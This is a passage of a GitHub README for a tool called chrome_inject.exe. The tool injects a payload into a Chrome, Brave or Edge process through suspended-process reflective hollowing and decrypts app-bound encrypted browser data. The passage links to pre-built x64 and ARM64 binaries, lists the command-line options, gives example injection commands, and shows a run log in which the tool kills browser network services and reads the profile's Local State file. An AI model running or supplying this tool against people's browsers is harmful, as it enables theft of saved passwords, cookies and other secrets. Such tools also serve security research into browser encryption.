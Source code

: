 This single command will compile all components and produce a self-contained `chrome_inject.exe` in the root directory.

###  Automated Builds with GitHub Actions

This project uses GitHub Actions to automatically build the injector executable ( `chrome_inject.exe`) for both **x64** and **ARM64** architectures

You can find the latest pre-compiled binaries on the [**Releases page**](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption/releases). The executables for both architectures are packaged together in a single, convenient .zip file.

**Release Package Contents:**
- `chrome_inject_x64.exe`
- `chrome_inject_arm64.exe`

## 🚀 Usage

```bash
Usage: chrome_inject.exe [options] <chrome|brave|edge>
```

### Options

Options

- `--output-path <path>` or `-o <path>`
  Specifies the base directory for output files.
  Defaults to `.\output\` relative to the injector's location.
  Data will be organized into subfolders: `<path>/<BrowserName>/<ProfileName>/`.

- `--verbose` or `-v`
  Enable extensive debugging output from the injector.

- `--help` or `-h`
  Show this help message.

### Examples

```bash
# Standard injection into a running Chrome process:
PS> .\chrome_inject.exe chrome

# Auto-start Brave and show verbose debug logs:
PS> .\chrome_inject.exe --start-browser --verbose brave
```

#### Normal Run

```bash
PS> .\chrome_inject.exe --start-browser chrome
------------------------------------------------
|  Chrome App-Bound Encryption Decryption      |
|  Direct Syscall-Based Reflective Hollowing   |
|  x64 & ARM64 | v0.14.0 by @xaitax            |
------------------------------------------------

[*] Scanning for and terminating browser network services...
[+] Found and terminated network service PID: 23660
[*] Termination sweep complete. Waiting for file locks to fully release.
[*] Creating suspended Chrome process.
[+] Created suspended process PID: 17196
[+] New thread created for payload. Main thread remains suspended.
[*] Waiting for payload execution. (Pipe: \\.\pipe\60f1f20f-f6a7-41a9-ae23-ed0a9da6ded5)

[*] Decryption process started for Chrome
[+] COM library initialized (APARTMENTTHREADED).
[*] Reading Local State file: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
```